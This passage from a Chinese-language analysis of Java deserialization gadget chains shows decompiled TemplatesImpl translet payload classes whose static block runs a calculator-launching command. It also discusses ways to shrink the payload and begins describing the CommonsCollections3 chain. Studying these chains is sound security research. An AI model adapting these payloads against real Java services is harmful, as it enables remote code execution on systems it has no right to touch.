     public class 20566442311196 extends AbstractTranslet implements Serializable {
        private static final long serialVersionUID = -5971610431559700674L;
    
        public _0566442311196/* $FF was: 20566442311196*/() {
        }
    
        public void transform(DOM document, SerializationHandler[] handlers) throws TransletException {
        }
    
        public void transform(DOM document, DTMAxisIterator iterator, SerializationHandler handler) throws TransletException {
        }
    
        static {
            Object var1 = null;
            Runtime.getRuntime().exec("open /Applications/Calculator.app");
        }
    }
    ```
    
    
    修改后生成的class如下，对应的payload有1,446 字节，如果将恶意代码插入到无参构造函数中只有1,356 字节会比静态代码块要小一些
    
    
    ```java
    import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;

    public class 20977646936963 extends AbstractTranslet {
        static {
            Object var1 = null;
            Runtime.getRuntime().exec("open /Applications/Calculator.app");
        }
    
        public _0977646936963/* $FF was: 20977646936963*/() {
        }
    }
    ```
  
  
### CommonsCollections3

在知道CommonsCollections1和CommonsCollections2之后，CommonsCollections3就很简单了触发transform的方法仍然是使用AnnotationInvocationHandler+LazyMap，TemplatesImpl存储要执行的命令，但是transformerChain和之前不同

![-w786](media/15662017023838/15670897728188.jpg)

使用InstantiateTransformer的transform方法触发命令执行
